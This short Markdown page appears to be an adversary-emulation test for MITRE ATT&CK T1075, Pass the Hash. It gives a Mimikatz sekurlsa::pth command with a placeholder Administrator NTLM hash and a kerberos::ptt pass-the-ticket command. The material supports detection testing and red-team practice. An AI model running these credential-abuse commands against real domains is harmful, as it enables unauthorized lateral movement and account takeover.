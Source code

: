 # Pass the Hash

## MITRE ATT&CK Technique:
[T1075](https://attack.mitre.org/wiki/Technique/T1075)

## Mimikatz

### Note: must dump hashes first

`mimikatz # sekurlsa::pth /user:Administrator /domain:atomic.local /ntlm:cc36cf7a8514893efccd3324464tkg1a`

### [Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

## Kerberos Ticket attack

`mimikatz # kerberos::ptt Administrator@krbtgt-atomic.LOCAL.kirbi`

